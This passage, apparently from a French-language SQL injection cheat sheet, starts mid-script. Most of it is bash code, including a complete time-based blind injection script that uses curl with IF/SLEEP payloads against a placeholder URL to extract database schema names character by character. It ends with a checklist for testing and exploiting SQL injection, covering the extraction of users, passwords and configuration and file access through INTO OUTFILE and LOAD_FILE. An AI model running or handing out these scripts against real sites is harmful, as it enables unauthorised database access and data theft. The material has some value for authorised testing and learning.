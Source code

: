 ```bash
            result="$result$char"
            echo "Position $i: $char (Current: $result)"
            break
        fi
    done
done

echo "Database name: $result"
```

### Time-Based Extraction
```bash
#!/bin/bash
# Extraction avec délai

target="http://target.com/page.php?id=1"
result=""

for i in {1..20}; do
    for char in {a..z} {0..9}; do
        url="$target' AND IF((SELECT SUBSTRING(schema_name,$i,1) FROM information_schema.schemata LIMIT 1)='$char',SLEEP(3),0)--"
        
        start_time=$(date +%s)
        curl -s "$url" > /dev/null
        end_time=$(date +%s)
        
        if [ $((end_time - start_time)) -ge 3 ]; then
            result="$result$char"
            echo "Position $i: $char (Current: $result)"
            break
        fi
    done
done
```

## 📋 Checklist SQL Injection

### ✅ Tests de Base :
1. **Caractères spéciaux** - ', ", \, ;
2. **Tests logiques** - AND 1=1, AND 1=2
3. **Tests de délai** - SLEEP(), WAITFOR DELAY
4. **Tests d'erreur** - Caractères invalides
5. **ORDER BY** - Déterminer nombre de colonnes

### ✅ Exploitation :
1. **Type de SGBD** - MySQL, PostgreSQL, SQL Server, Oracle
2. **Permissions** - Lecture, écriture, exécution
3. **Structure DB** - Bases, tables, colonnes
4. **Données sensibles** - Users, passwords, config
5. **Accès fichiers** - INTO OUTFILE, LOAD_FILE
